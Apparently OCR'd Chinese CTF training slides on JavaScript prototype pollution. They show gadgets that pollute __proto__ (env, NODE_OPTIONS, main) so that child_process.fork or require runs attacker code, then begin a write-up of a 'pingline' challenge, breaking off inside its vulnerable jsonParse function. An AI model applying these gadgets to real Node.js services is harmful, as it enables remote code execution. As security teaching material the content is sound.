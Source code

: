 ::right::

- `fork` 方法：

```javascript
// 通过 env 技巧
const { fork } = require("child_process");
b = {};
b.__proto__.env = { EVIL: "恶意代码" };
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ";
var proc = fork("任意文件");
```

---

#### 强制触发子进程执行

如果代码本身没有调用 `spawn`，但存在可控的 `require` 路径，可以诱导其加载恶意模块：

```javascript
// 污染模块路径
Object.prototype.main = "/tmp/malicious.js";
require("某个模块"); // 实际加载恶意脚本
```

---

### 题目：pingline

使用提供的容器镜像，启动服务：

```bash
docker load -i pingline.tar
docker run --rm -p 3000:3000 pingline
```

服务运行后，访问 `http://localhost:3000/` 即可看到相关页面。

请尝试利用该服务的漏洞，得到 flag。

---

#### 解题思路 1

看代码很容易能看到一个很奇怪的函数：

```ts {all|1-4|26-28|19-25}{lines:true, maxHeight:'50%'}
function jsonParse(
  str: string,
  ret?: Record<string, any>,
): Record<string, any> {
  ret ??= {};

  if (!(str.startsWith("{") && str.endsWith("}"))) {
    return ret;
  }

  const matches = str
    .slice(1, str.length - 1)
    .matchAll(
      /(?:^|,)\s*"(?<key>\w+)"\s*:\s*(?<value>\d+|(?:true|false)|"(?:\\.|[^"])*"|\{.+?})/g,
    );
  for (const match of matches) {
    const { key, value } = match.groups!;
    if (value.startsWith('"')) {
      ret[key] = value
        .slice(1, value.length - 1)
        .replace(/\\(u([0-9a-fA-F]{4})|.)/g, (_, m: string, code: string) =>
          m === "u"
            ? String.fromCharCode(parseInt(code, 16))
```